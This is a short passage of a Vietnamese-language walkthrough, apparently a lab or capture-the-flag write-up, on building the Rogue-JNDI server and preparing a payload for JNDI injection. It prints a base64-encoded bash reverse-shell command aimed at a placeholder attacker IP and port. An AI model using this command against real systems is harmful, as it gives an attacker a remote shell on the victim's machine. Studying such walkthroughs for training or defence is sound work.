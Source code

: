 ![alt text](image-9.png)

Thao tác này sẽ tạo một file `.jar` trong thư mục `rogue-jndi/target/` có tên là `RogueJndi-1.1.jar`. Bây giờ có thể xây dựng payload để truyền vào ứng dụng Java `RogueJndi-1-1.jar`.

Để sử dụng máy chủ Rogue-JNDI, phải build và truyền cho nó một payload, payload này sẽ chịu trách nhiệm cung cấp một shell trên hệ thống bị ảnh hưởng. Mã hóa Base64 payload để ngăn chặn mọi sự cố mã hóa.

```
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```

![alt text](image-10.png)
